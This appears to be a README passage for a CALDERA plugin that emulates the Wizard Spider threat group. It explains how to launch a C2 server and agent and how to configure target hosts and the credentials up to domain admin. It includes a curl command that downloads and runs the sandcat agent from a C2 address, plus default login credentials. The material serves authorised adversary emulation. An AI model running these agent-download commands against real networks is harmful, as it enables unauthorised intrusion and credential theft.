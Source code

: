 Run your C2 server.
```
python3 server.py --log DEBUG
```

# RUNNING THE OPERATION

## Launch Agent on Attacker-controlled Kali Machine
We recommend using a different Kali linux machine to run the Kali agent since RDP windows will need to be in the forefront when performing certain automated keystrokes. Thus, in order to avoid disrupting automated RDP keystrokes, it's best to run the Kali agent on a machine different from the C2 server. If you plan on using the same Kali machine to run the C2 server and the kali agent, make sure not to type or click around when performing RDP-related abilities.

Launch the agent by running the following command on the (preferably remote) Kali machine:
```
server="http://192.168.0.4:8888"; # change IP address for your CALDERA C2 server according to your environment
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" -H "server:$server" -H "group:kali" $server/file/download > sandcat.go;
chmod +x sandcat.go;
./sandcat.go -v;
```

Log into CALDERA's web GUI by accessing your C2 server address in a web browser (Chrome recommended), and using your credentials (default username is `red`, default password is `admin`).

Make sure you can see your kali agent after clicking the `agents` option on the menu on the left, under "Campaigns".

For best results, make sure you don't have other agents currently beaconing in.

## Fact Setup
Before running the operation, you will need to make sure that the Wizard Spider fact source is properly configured for your environment. While default fact values are provided, they will need to be replaced by the appropriate values specific to your testing environment. On the left menu, under `Configuration`, select `fact sources`. Under the "Select a source" drop-down menu, select `Wizard Spider (Emu)`, which is the fact source for the Wizard Spider adversary. From there, update the following facts as needed:
- `ad.domain.name`: this is the short-hand domain name (not the fully-qualified domain) for your Active Directory environment. For instance, if your usernames look like `DOMAINNAME\Username`, then you will want your fact value to be `DOMAINNAME`.
- `ad.domain.full_name`: this will be the fully qualified domain name (e.g. `oz.local`) for your Active Directory environment.
- `initial.target.host`: the IPv4 address or hostname of the initial target for the operation. This will have to be a Windows machine connected to your Active Directory environment.
- `initial.user.name`: the username (without the domain portion) that will be used to log into the initial target.
- `initial.user.password`: the password of the initial user.
- `second.target.host`: the IPv4 address or hostname of the second target for the operation. This will have to be a Windows machine connected to your Active Directory environment.
- `second_host.user.name`: the username (without the domain portion) that will be used to log into the second target.
- `second_host.user.password`: the password of the second target user.
- `dc.target.host`: the IPv4 address or hostname of the Domain Controller for your AD environment.
- `domain.admin.name`: username (without the domain portion) of the domain admin.
- `domain.admin.password`: domain admin's password.

